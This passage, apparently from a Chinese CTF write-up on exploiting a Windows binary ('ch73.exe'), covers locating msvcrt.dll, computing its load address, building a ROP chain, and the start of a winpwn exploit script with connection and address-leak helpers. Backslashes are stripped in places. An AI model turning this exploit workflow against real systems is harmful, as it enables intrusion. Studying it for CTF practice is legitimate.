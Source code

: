 又可以从`IDA`中看出`DLL`文件位于`msvcrt.dll`，文件位于`C:WindowsSystemSysWOW64`目录下。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-07-11-061718.png)

于是可以计算出`DLL`加载地址

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-07-11-044542.png)

#### <a class="reference-link" name="%E6%9C%80%E7%BB%88%E5%AE%8C%E6%88%90%E5%88%A9%E7%94%A8"></a>最终完成利用

最终我们直接计算构造ROP即可

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-07-11-044731.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-07-11-044856.png)

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from winpwn import *
import os
import traceback
import sys
context.log_level='debug'
# context.arch='amd64'
context.arch='i386'

# file_name=ELF('./file_name', checksec = False)

def get_sh():
    if len(sys.argv) &gt; 1 and sys.argv[1] == 'REMOTE' :
        return remote(sys.argv[2],sys.argv[3])
    else:
        return process("./ch73.exe")

def get_address(sh,info=None,start_string=None,address_len=None,end_string=None,offset=None,int_mode=False):
    if start_string != None:
        sh.recvuntil(start_string)
    if int_mode :
        return_address = int(sh.recvuntil(end_string).strip(end_string),16)
    elif address_len != None:
        return_address = u64(sh.recv()[:address_len].strip(end_string).ljust(8,'x00'))
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    if offset != None:
        return_address = return_address + offset
    if info != None:
        print(info + str(hex(return_address)))
    return return_address

# def get_flag(sh):
#     sh.sendline('cat /flag')
#     return sh.recvrepeat(0.3)

```